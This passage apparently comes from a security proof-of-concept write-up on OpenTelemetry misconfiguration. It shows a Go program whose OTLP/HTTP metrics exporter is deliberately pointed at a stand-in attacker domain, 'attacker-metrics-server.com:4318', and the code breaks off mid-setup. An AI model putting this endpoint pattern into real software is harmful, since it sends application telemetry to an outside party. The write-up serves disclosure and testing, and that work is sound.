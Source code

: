 Run this Python script on `attacker-metrics-server.com`. Ensure port 4318 (or your chosen port) is open.

2. Misconfigure a Sample Go Application:

Create a Go application that uses the OpenTelemetry SDK to export metrics via OTLP/HTTP. Intentionally configure the OTLP exporter to send metrics to the attacker's listener.

```Go

// File: main.go (PoC Go Application)
package main

import (
	"context"
	"log"
	"os"
	"time"

	"go.opentelemetry.io/otel"
	"go.opentelemetry.io/otel/attribute"
	"go.opentelemetry.io/otel/exporters/otlp/otlpmetric/otlpmetrichttp"
	"go.opentelemetry.io/otel/sdk/metric"
	"go.opentelemetry.io/otel/sdk/resource"
	semconv "go.opentelemetry.io/otel/semconv/v1.21.0"
)

func main() {
	ctx := context.Background()

	// VULNERABLE CONFIGURATION FOR POC:
	// Endpoint for the attacker's listener.
	// For a real domain, ensure it resolves to your listener's IP.
	// For local testing, you might use "localhost:4318" if listener is local.
	// Here, we simulate an external misconfigured domain.
	attackerEndpoint := "attacker-metrics-server.com:4318" // Ensure this domain resolves to your listener
	
	// Allow overriding via environment variable for easier testing
	if fromEnv := os.Getenv("ATTACKER_METRICS_ENDPOINT"); fromEnv!= "" {
		attackerEndpoint = fromEnv
	}

	log.Printf("PoC: Attempting to configure OTLP exporter to: %s\n", attackerEndpoint)

	// Configure the OTLP HTTP metric exporter
	exp, err := otlpmetrichttp.New(ctx,
		otlpmetrichttp.WithEndpoint(attackerEndpoint), // Points to the attacker's domain
		otlpmetrichttp.WithInsecure(),                 // Use HTTP for simplicity in PoC; a real attack might target HTTP or HTTPS
		// otlpmetrichttp.WithURLPath("/v1/metrics"), // Default path, adjust if your listener expects something else
	)
	if err!= nil {
		log.Fatalf("Failed to create OTLP HTTP metric exporter: %v", err)
	}

	// Create a new OpenTelemetry resource
	res, err := resource.New(ctx, resource.WithAttributes(semconv.ServiceNameKey.String("vulnerable-poc-app")))
	if err!= nil {
		log.Fatalf("Failed to create resource: %v", err)
	}

	// Create a new MeterProvider and set it globally
```